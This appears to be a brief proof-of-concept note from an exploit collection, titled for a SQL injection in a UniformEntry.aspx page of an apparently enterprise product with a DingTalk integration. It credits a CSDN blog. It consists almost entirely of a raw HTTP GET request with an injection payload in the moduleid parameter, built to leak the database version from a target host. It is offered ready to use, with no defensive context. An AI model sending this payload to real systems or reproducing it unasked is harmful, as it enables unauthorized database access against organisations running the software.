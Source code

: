 # lanlineis_unformentry_sql
2024/1/15
from: https://blog.csdn.net/luochen2436/article/details/135504662?spm=1001.2014.3001.5502
@2


```
GET /third/DingTalk/Pages/UniformEntry.aspx?moduleid=1%20and%201=@@version--+ HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip

```
